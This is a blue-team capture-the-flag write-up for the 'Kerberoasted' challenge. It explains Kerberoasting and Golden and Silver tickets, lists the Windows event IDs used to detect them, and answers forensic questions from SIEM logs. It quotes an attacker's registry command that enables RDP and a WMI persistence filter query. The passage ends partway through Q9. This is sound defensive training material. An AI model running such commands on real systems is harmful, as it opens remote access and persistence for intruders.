---

[https://cyberdefenders.org/blueteam-ctf-challenges/kerberoasted/](https://cyberdefenders.org/blueteam-ctf-challenges/kerberoasted/)

## Kerberos {#3617b0eb61a480babd4afc0154926890}

### A Brief Recap on Kerberos {#3617b0eb61a4805787a6d2770cf6ff58}

Kerberos is the default authentication protocol in Active Directory (AD). It operates on a ticket-based mechanism to verify identities without transmitting passwords over the network.

**Key Components:**

- **KDC (Key Distribution Center):** The central key distribution facility, typically hosted on the Domain Controller (DC). It consists of two sub-servers:
	- **AS (Authentication Server):** Issues the initial "entrance ticket."
	- **TGS (Ticket Granting Server):** Acts as the "ticket booth" issuing tickets for specific zones or services.
- **TGT (Ticket Granting Ticket):** The "all-inclusive" master ticket used to request other specific service tickets.
- **SPN (Service Principal Name):** The unique identifier for a service running on a server (e.g., `MSSQLSvc/db-server.domain.com:1433`).

**Workflow:**

- **AS-REQ / AS-REP:** The user sends an authentication request to the AS. If the credentials are valid, the AS returns a TGT.
- **TGS-REQ / TGS-REP:** When the user wants to access a specific service (like a file share or an SQL server), they send their TGT to the TGS along with the target service's SPN. The TGS validates the request and returns a Service Ticket.
	- _Note:_ The TGS encrypts a portion of this Service Ticket using the password hash of the service account running that specific service.
- **AP-REQ:** The user presents the Service Ticket to the target server hosting the service to gain access.

---

## Kerberoasting {#3617b0eb61a4807bb07dff0003f0a1e4}

This attack exploits the second step of the workflow (**TGS-REQ / TGS-REP**) to steal the password hash for offline cracking.

**Attack Methodology:**

- **Reconnaissance:** An attacker, having already compromised a standard domain account, queries Active Directory to retrieve a list of all accounts configured with an SPN (which are typically service accounts).
- **TGS Request:** The attacker uses that standard account to request a Service Ticket from the TGS for the discovered SPNs. Kerberos does not verify whether the user actually has the authorization to _use_ the service; any authenticated user can request a Service Ticket for any service.
- **Ticket Extraction:** The KDC returns the Service Ticket (TGS-REP), which is partially encrypted with the service account's password hash. The attacker extracts this ticket from memory using tools like Rubeus, Impacket, or Mimikatz.
- **Offline Cracking:** The attacker saves this ticket to a file, transfers it to their own machine, and attempts to crack it offline using brute-force or dictionary attacks.

**Summary of the Flow:**

- The user logs into the Authentication Server (AS). Upon success, they are granted a TGT.
- To use a specific service, the user sends the TGT to the Ticket Granting Server (TGS) along with the server's SPN (e.g., an SQL server).
	- → _This is the architectural weakness of Kerberos: it issues the ticket without checking if the user actually has the permissions to access that target server._
- The TGS returns the Service Ticket (a portion of which is encrypted using the service account's own password hash).
	- **If it is a legitimate user:** They will present the ticket directly to the target server (e.g., the SQL server) to gain access.
	- **If it is a hacker:** They will extract the ticket and take it offline to brute-force and guess the underlying password.

---

## How to Detect {#3617b0eb61a48001b4a1c42df3869ba7}

- **Event ID 4769 (A Kerberos service ticket was requested):** A massive spike in these requests from a standard, unprivileged account is a major red flag.
- **Event ID 4768 (A Kerberos authentication ticket (TGT) was requested):** Logs when a client requests a Ticket Granting Ticket, indicating the initial login.
- **Event ID 4769 (A Kerberos service ticket was requested):** Logged when a user requests a ticket from the TGS for a specific service.
- **RC4 Encryption (Ticket encryption type:** **`0x17`****):** Attackers often attempt to downgrade the encryption, forcing the KDC to return a ticket encrypted with the RC4 algorithm instead of AES-256 (`0x12`), as RC4 is much easier to crack. If Event ID 4769 shows a ticket encryption type of `0x17`, it is highly suspicious.

:::tip

Service Accounts: Not Designed for Interactive Logins
Typically, running a background service requires a dedicated account. For instance, for an SQL Server to operate, it requires a service account so that Windows can grant it the appropriate permissions.

- **Enterprise Setup:** In a corporate environment, administrators often create a standard user account within Active Directory (e.g., `domain\sql_svc_account`). They then configure the SQL Server software to run under the context of this specific account.

**Assigning the SPN:**
An SPN (Service Principal Name) is directly assigned to this service account.

- **Example:** The account `domain\sql_svc_account` might be configured with an SPN such as `MSSQLSvc/sql-server.domain.local:1433`.

**The Active Directory Vulnerability:**
By default in Active Directory, **any successfully authenticated user** can query the AD directory (using the LDAP protocol) and read the entire list of these configured SPNs.

:::

## Golden ticket vs silver ticket {#3537b0eb61a48046b400ef6e6378a7b1}

| **Kerberoasting**                                                                                                            | **Golden Ticket**                                                                                                                                                                                | **Silver Ticket**                                                                                                                                                                                                                 |
| ---------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Exploits the legitimate ticket-requesting feature of the TGS. Does not interact directly with the target service server. | The attacker compromises the `krbtgt` account's password hash (which requires Domain Admin privileges) to forge a TGT. Using this forged TGT, they can request service tickets from any TGS. | Bypasses the KDC entirely by forging a Service Ticket to deceive the target service server. Instead of requesting a ticket from the TGS, the attacker creates a fake ticket and uses it to gain direct access to the service. |
| Generates Event ID 4769.                                                                                                     | Leaves forensic traces on both the Domain Controller (DC) and the service server.                                                                                                                | Gains access without generating Event ID 4769 at the KDC, but leaves login traces within the local service logs.                                                                                                                  |

The primary danger of a **Golden Ticket** lies in its ability to manipulate the **PAC (Privilege Attribute Certificate)**:

- Normally, the compromised user account might just belong to a standard employee.
	- However, by forging the TGT, the attacker can artificially elevate their privileges to Domain Admin within the ticket.
- When presenting this forged TGT to the TGS, the server will issue a Service Ticket that inherently includes these Domain Admin privileges.
- Consequently, when presenting this Service Ticket to a target (such as an SQL server), the attacker gains full Domain Admin control over the machine. This allows them unrestricted access to do whatever they want—compromising not just the specific service, but the entire server itself.

A legitimate TGT typically expires after 10 hours, but an attacker can forge one with a validity of 10 years.

Because this TGT is forged using the cryptographic "seal" of the `krbtgt` account, it operates entirely independent of any individual user's password. Even if the IT team detects the breach and immediately resets the passwords for all executives and Domain Admins in the company, the attacker's Golden Ticket will continue to function normally.

The only way to invalidate a forged Golden Ticket is to reset the password of the `krbtgt` account itself (which must be done twice consecutively).

## Questions {#3617b0eb61a4802db458db7073e1ba75}

### Q1 To mitigate Kerberoasting attacks effectively, we need to strengthen the encryption Kerberos protocol uses. What encryption type is currently in use within the network? {#3537b0eb61a480398c73d2d328b6d4eb}



Upon inspection, we found that the encryption type is `0x17`, which corresponds to **RC4-HMAC**.

> **RC4-HMAC**

### Q2 What is the username of the account that sequentially requested Ticket Granting Service (TGS) for two distinct application services within a short timeframe? {#3537b0eb61a480dba986e45b6cc2de8e}

We continued our investigation by filtering for `event.code: 4769` and systematically excluding legitimate machine accounts. We observed that the user **johndoe**—a standard user account—was making continuous requests starting from **Oct 15, 2023 @ 18:41:58**.



> johndoe

_Note:_ Machine accounts generating Event ID 4769 where the service is `krbtgt` are simply requesting a TGT renewal after the standard 10-hour expiration period, which is considered normal behavior.



### Q3 We must delve deeper into the logs to pinpoint any compromised service accounts for a comprehensive investigation into potential successful kerberoasting attack attempts. Can you provide the account name of the compromised service account? {#3537b0eb61a48005a379e20ae4890160}

Based on the initial log analysis, we suspected that both `SQLService` and `FileShareService` were targeted. By filtering for `event.code: 4624` and `winlog.event_data.TargetUserName: SQLService`—



and knowing the SQL server's IP address is `192.168.19.129`—we confirmed that `SQLService` was the compromised account.



Consequently, by the following morning at **Oct 16, 2023 @ 07:48:38.457**, the attacker had successfully cracked the hash and logged into the SQL server.

> SQLService

### Q4 To track the attacker's entry point, we need to identify the machine initially compromised by the attacker. What is the machine's IP address? {#3537b0eb61a480079920fb1d39e60605}

The logs indicate that the initial and subsequent continuous logins occurred on **Oct 15, 2023 @ 17:56:03.354** originating from the IP address **10.0.0.154**.

> 10.0.0.154

### Q5 To understand the attacker's actions following the login with the compromised service account, can you specify the service name installed on the Domain Controller (DC)? {#3537b0eb61a4800ab148d67f32499db2}

By filtering for service installation events (`event.code: 7045` or `4697`) on the Domain Controller (IP: **10.0.0.135**), we can identify the specific malicious service deployed by the attacker.  



> iOOEDsXjWeGRAyGl

### Q6 To grasp the extent of the attacker's intentions, What's the complete registry key path where the attacker modified the value to enable Remote Desktop Protocol (RDP)? {#3537b0eb61a480429865e74f2e142280}

To enable RDP remotely, an attacker typically executes a command modifying the terminal services registry, such as:
`reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

We identified this modification by querying `event.code: 13` alongside `winlog.event_data.TargetObject: *Terminal*`, which was recorded on **Oct 16, 2023 @ 07:48:38.457**.



> HKLM\System\CurrentControlSet\Control\Terminal Server\fDenyTSConnections

### Q7 To create a comprehensive timeline of the attack, what is the UTC timestamp of the first recorded Remote Desktop Protocol (RDP) login event? {#3537b0eb61a48037a49ef91f572faf86}

On **Oct 16, 2023 @ 07:50:29.151**, the compromised machine at `10.0.0.154` successfully established an RDP connection to `DC01`.



> 2023-10-16 07:50

### Q8 To unravel the persistence mechanism employed by the attacker, what is the name of the WMI event consumer responsible for maintaining persistence? {#3537b0eb61a480d7a08ff167d6dd5865}

Windows Management Instrumentation (WMI) is a built-in administration framework in Windows. Attackers frequently abuse it to establish persistence, which typically involves three core components:

1. **WMI Event Filter:** The "listening" component. The attacker sets up a trigger condition (e.g., waiting for a USB drive insertion, or a timer executing every 60 minutes).
2. **WMI Event Consumer:** The payload component. This dictates the malicious action to execute, such as running a hidden PowerShell script to download a backdoor or initiate a reverse shell. The two most common consumer types are:
	- `CommandLineEventConsumer`: Executes `.exe`, `.bat`, or PowerShell scripts.
	- `ActiveScriptEventConsumer`: Executes `.vbs` or `.js` scripts natively.
3. **FilterToConsumerBinding:** The mechanism that links the Filter (the trigger) to the Consumer (the action).

**Relevant Sysmon Event IDs:**

- **Event ID 19:** WMI Event Filter activity (Trigger creation).
- **Event ID 20:** WMI Event Consumer activity (Payload creation).
- **Event ID 21:** WMI Event Consumer to Filter Binding (Linking the two).

By querying `event.code: 20` within the Sysmon logs, we identified the malicious consumer named: **Updater** (created on **Oct 16, 2023 @ 07:58:06.389**).





The attacker deliberately chose a legitimate-sounding name to evade detection. Typically, to confirm that the filter and consumer are linked—aside from their highly correlated timestamps—we would look for **Event ID 21**. However, in this specific instance, the payload had not yet executed, so the binding event was not yet recorded.



> Updater

### Q9 Which class does the WMI event subscription filter target in the WMI Event Subscription you've identified? {#3537b0eb61a480a4a0d1c9875ed2f28a}

Using `event.code: 19`, we extracted the following WMI Query Language (WQL) string:

`"SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND Targetinstance.EventCode = '4625' And Targetinstance.Message Like '%johndoe%'"`

**Query Breakdown:**

- `SELECT * FROM __InstanceCreationEvent`: Instructs WMI to trigger whenever a specific new event/instance is created.
